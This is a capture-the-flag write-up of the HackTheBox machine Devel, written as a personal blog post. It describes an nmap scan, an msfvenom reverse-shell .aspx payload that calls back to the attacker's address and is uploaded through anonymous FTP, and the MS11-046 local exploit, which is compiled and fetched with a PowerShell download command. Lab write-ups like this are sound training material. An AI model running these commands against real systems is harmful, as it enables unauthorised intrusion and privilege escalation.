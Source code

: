 ```yaml
---
title: HackTheBox - Devel
date: 2021-03-01 14:43:00 +/- 0000
categories: [HackTheBox,Easy]
author: Connor Weeks-Pearson
tags: [devel]
image: /assets/img/Icons/devel/devel.png
---
```


Although it's been a while since my last upload due to getting a new job, i thought it was time to get back on the grind, starting with Devel. This was my second machine rooted without using Metasploit. This machine exploits a Windows web server with anonymous upload privileges via FTP enabled. Once inside, i used "afd.sys" (MS11-046) to esculate priviledges and gain root!

## Summary

- Port scan using NMAP
- Upload MSFVenom generated .apsx shell to web server via FTP
- Elevate privilidges using 'afd.sys' to gain root

---

***Machine IP: 10.10.10.5***

## Reconnaissance
### NMAP

`nmap -n -p- -sV -T 5 10.10.10.5`

![nmap](/assets/img/Icons/Devel/nmap1.png)

FTP is open and so is port 80. Further enumeration:

`nmap -p 80,21 -sC -sV -O 10.10.10.5`

![nmap2](/assets/img/Icons/Devel/nmap2.png)

FTP anonymous login is allowed! Maybe we can exploit this? It also containts an aspnet_client. What is it?

### FTP

Anonymous FTP is enabled. We also have the ability to upload files using PUT.

![ftp1](/assets/img/Icons/Devel/ftp1.png)

These are the files located within the FTP directory.

![ftp2](/assets/img/Icons/Devel/ftp2.png)

### HTTP

![http1](/assets/img/Icons/Devel/http1.png)

It seems the website is hosted in the same root directory as FTP. As the file “iisstart.htm” is reachable.
Maybe we could upload something via FTP and access it via HTTP?

Creating a simple test.html file and upload it via FTP

![http2](/assets/img/Icons/Devel/http2.png)

Then The on the browser navigate to 10.10.10.5/test.html

![http3](/assets/img/Icons/Devel/http3.png)

It works, confirming that files uploaded by FTP and navigated to are executed by the webserver. The webserver is 
Microsoft IIS 7.5

Maybe we can upload a reverse shell via FTP and get the web server to execute it?

#### IIS 7.5

After some googling to find out more about IIS 7.5, i stumbled across this website.

https://stackify.com/iis-web-server/

It highlights that the webserver can do much more than host “ASP.NET apps".

Okay, but what are ASP.NET apps? After some more googling it seems they use the extension .aspx

As per https://fileinfo.com/extension/aspx

An ASPX file is an Active Server Page Extended (ASPX) file, which is a webpage generated by web servers running the Microsoft ASP.NET framework.

Well our webserver is running the ASP.NET framework, and so we could create a payload with the extension .aspx and get the webserver to execute it!

## Exploitation

So now we know that our web server executes .aspx files, we can create a payload using msfvenom with the .aspx extention, and upload it to the root directory.

So first of all, lets check .aspx is a valid format for msfvenom.

`msfvenom --list format | grep aspx`

![aspx1](/assets/img/Icons/Devel/aspx1.png)

Both the aspx and aspx-exe extensions are available, great!

Now lets find a windows reverse shell. We will not use meterpreter as it is not available on the OSCP.

`msfvenom --list payloads | grep windows/shell`


<pre>windows/shell_reverse_tcp                  Connect back to attacker and spawn a command shell</pre>

Perfect!

Now lets create a .aspx payload called rshell.aspx

`msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.15 LPORT=4444 -o rshell.aspx`

and then upload it using FTP.

`put rshell.aspx`

Start a netcat listener on port 4444, or any port you like, and get the web server to execute the file. 

![shell](/assets/img/Icons/Devel/shell.png)

Navigating to Users, we can see we have 2 accounts:
- Admin
- babis

However, we do not have access to either.

![shell3](/assets/img/Icons/Devel/shell3.png)

Time for some priviledge esculation.

## Priviledge Esculation
### System information

Lets start by finding out some information about our target machine:

![sysinfo](/assets/img/Icons/Devel/privesc.png)

It looks as though Windows 7 Enterprise version 6.1.7600 is running, and it has not been patched!
Lets have a look for some exploits on google.

https://www.exploit-db.com/exploits/40564

This looks like exactly what we need. Lets have a look at the exploit notes:

![exploit](/assets/img/Icons/Devel/exploit.png)

It seems the exploit will be compiled within our host machine, and then uploaded to the target machine before execution.

### Compiling

First, lets get the file onto our host machine. As the website shows the file is EDB verified, we should be able to find it in searchsploit.

`searchsploit -m 40564`

Rename the file to MS11-046.c using mv, and then run the command given within the exploit. The compiling will fail, due to our host system not having mingw installed. We can install this using:

`sudo apt-get install mingw-w64`

Re-run the command, and it will compile.

![compiled](/assets/img/Icons/Devel/compiled.png)

Great, we now have an executable! Now to get it on the target machine.

### Esculating

The target machine does not have netcat installed, however it does have Windows powershell, so we will use that to connect back to our host machine and download the file.

Start with a Simple python server:

`python -m SimpleHTTPServer 6666`

and then on the remote machine, use powershell to connect back to the host, and download the file.

This website gives a good insight into how to do this using (new-object System.Net.WebClient).DownloadFile

https://blog.ropnop.com/transferring-files-from-kali-to-windows/#http

`powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.15:6666/MS11-046.exe' , ‘c:\Users\Public\Downloads\MS11-046.exe’)"`

Navigate to /Users/Public/Downloads

![transferred](/assets/img/Icons/Devel/transferred.png)

We can see the file is there! Execute it!

![root](/assets/img/Icons/Devel/root.png)

We have root!!

## Flags
Here are the flags for this machine!

**User:**
![user](/assets/img/Icons/Devel/user.png)

**Root:**
![Root](/assets/img/Icons/Devel/root2.png)

